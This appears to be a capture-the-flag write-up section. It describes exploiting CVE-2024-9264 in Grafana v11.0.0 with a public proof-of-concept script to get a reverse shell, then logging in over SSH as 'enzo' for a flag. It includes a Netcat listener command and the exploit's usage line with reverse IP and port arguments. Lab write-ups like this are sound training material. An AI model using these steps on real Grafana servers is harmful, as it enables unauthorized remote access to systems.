

#### Service Exploited:
Grafana →  v11.0.0 (all v11.x.y are impacted)  
  
#### Vulnerability Type:
A quick search reveals that this version is vulnerable to command injection and local file inclusion due to the experimental SQL Expressions feature introduced in it. This vulnerability has been assigned CVE-2024-9264.

Searching for a GitHub repository about the discovered vulnerability, we found the following repository that contains a Python exploit. → https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit


#### Exploit POC:

#### Description: 

In this case, we will use a readily available POC exploit script to inject malicious queries, allowing us to establish a reverse shell on the host.
We will first download the script and set up a listener on Netcat .

```bash
$ nc -lvnp 4444
```
Then, we can execute the POC script by adding the relevant arguments, such as the login credentials, the IP address of our local machine, and the port we set our listener on.

#### Exploit Code Used
```bash
python3 poc.py [--url <target>] [--username <username>] [--password <password>] [--reverse-ip <IP>] [--reverse-port <PORT>]
```
#### Discovery of Vulnerability



With this credential we can stablish a SSH connection.


With the SSH connection established, if we navigate through the different directories accessible to the user "enzo," we obtain the first flag.

[Back](README.md)